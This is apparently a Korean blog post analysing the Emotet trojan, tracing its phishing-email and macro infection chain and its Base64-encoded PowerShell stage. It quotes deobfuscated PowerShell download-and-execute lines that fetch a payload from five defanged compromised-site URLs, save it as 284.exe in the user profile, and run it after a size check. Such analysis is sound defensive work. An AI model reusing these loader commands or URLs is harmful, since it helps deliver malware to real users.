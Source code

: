 ```yaml
---
date: 2022-10-13T04:00:00
description: 
featured_image: 
tags: 
title: "Emotet 악성코드 분석"
---
```


![01](https://github.com/user-attachments/assets/e2c1e64f-1c3b-4fa0-abc7-6e06c9cb5ada)

## Emotet(이모텟)?

- 주로 이메일을 통해 확산되는 트로이 목마
- 합법적인 이메일처럼 보이도록 가장하여 사용자가 악성 파일을 클릭하도록 유도
- 트로이 목마를 업데이트하고 기본적으로 시스템에 액세스한 다음 운영자가 추가 페이로드를 다운로드할 수 있도록 하는 악성코드 유형인 "로더"로 작동하도록 구성
- 감염된 호스트에서 은행 자격 증명을 훔치거나, 피해자들로부터 돈을 갈취하는 것을 목표로 동작

## Emotet 실행/분석

### 1. 사회 공학 기법을 이용해 공격 대상에게 메일 발송
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)

### 2. 공격 대상은 의심없이 첨부 파일 다운로드
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br>

### 3. 파일 Open. 매크로 실행을 위해 'Enable Content' 클릭
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br>

### 4. Base64 인코딩된 코드 PowerShell 프로세스로 실행 시도
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br>

### 5. PowerShell 명령어에 의해 conhost 실행
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br>

### 6. PowerShell 스크립트 코드 실행
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br>

### 7. PowerShell 스크립트 코드 분석
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 아래 URL 에서 파일 다운로드
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 아래 경로에 파일 저장
$env:userprofile\284.exe

3) 23931 bytes 이상이면 실행
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

### 8. 사용자 폴더에 파일 생성
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [참조]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet


